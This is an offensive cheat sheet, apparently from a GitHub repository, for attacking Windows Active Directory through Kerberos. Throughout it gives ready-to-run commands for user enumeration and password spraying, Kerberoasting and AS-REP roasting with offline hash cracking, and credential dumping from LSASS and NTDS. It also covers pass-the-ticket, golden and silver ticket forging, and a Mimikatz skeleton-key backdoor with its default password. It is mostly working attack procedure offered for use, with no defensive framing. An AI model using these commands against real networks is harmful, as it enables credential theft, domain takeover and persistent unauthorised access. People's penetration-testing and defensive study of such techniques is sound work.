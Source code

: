 # active directory

## Kerbrute

(/usr/share/windows-resources/Ghostpack-CompiledBinaries/Rubeus.exe)

```
# enum users
./kerbrute -dc <DOMAIN-CONTROLLER> -d <FULL-DOMAIN> <username-wordlist> -t 50

# harvest all TGTs
Rubeus.exe harvest /interval:30
```

## Attacks

```
# brute force = 1 user and a password-list-dictionary

# pass spray = 1 password & try against all users
Kerbrute.exe brute /password:<PASS> /noticket
```

### kerberoasting

Allows user to request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to crack service password

```
# using Rubeus.exe
Rubeus.exe kerberoast
# copy hash and crack using hashcat -m 13100 -a 0 <hash> <passList>

# using Impacket
# dump the Kerberos hash for all kerberoastable accounts
sudo python3 GetUserSPNs.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DOMAIN-CONTROLLER> -request
```

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.

### AS-REP Roasting | (only for users with Kerberos pre-authentication disabled)

If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

```
# using Rubeus.exe
# dumps the krbasrep5 hashes of user accounts
Rubeus.exe asreproast
add $23 after $krb5asrep$
hashcat -m 18200 <hash> <PwdList>

# Impacket's GetNPUsers.py
# Enumerate the users > user.txt
GetNPUsers.py <DOMAIN>/ -usersfile user.txt -format hashcat -outputfile hash.asreproast
hashcat -m 18200 <hash> <PwdList>

secretsdump.py <user>@<domain-ip>
```

### Pass-the-ticket using Mimikatz

Can be used for dumping user credentials inside of an AD network Can dump the TGT from the LSASS memory (which stores Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided) Gives a .kirbi ticket - can be used to get domain admin The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using mimikatz PTT attack allowing you to act as that domain admin.

```
> mimikatz.exe
# 200 OK = have admin access to run this exe properly
privilege::debug
# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt <ticket>

# to check if ticket is working
> klist
```

### Golden / Silver ticket attack using Mimikatz

Silver ticket = more sleath and discreet; only for target service Golden ticket = any kerberos service

```
> mimikatz.exe
# 200 OK = have admin access to run this exe properly
privilege::debug

# dump hash and SID to create golden / silver ticket
# golden ticket /name: krbtgt
# silver ticket /name: [<domain-admin-account> | <service-account>]
lsadump::lsa /inject /name: <NAME>

# create ticket golden
kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<SID> /krbtgt:<KRBTGT_NTLM_hash> /id:500

# create ticket silver
kerberos::golden /user:<USER> /domain:<DOMAINM> /sid:<SID> /krbtgt:<SERVICE_NTLM_hash> /id:1103

# to access other machines
misc::cmd
```

### Kerberos backdoor using Mimikatz

Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

```
> mimikatz.exe
# 200 OK = have admin access to run this exe properly
privilege::debug

misc::skeleton
# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

## Resources:

```
# to find all Kerberoastable accounts
https://github.com/BloodHoundAD/BloodHound/releases

https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
https://github.com/gentilkiwi/kekeo
```
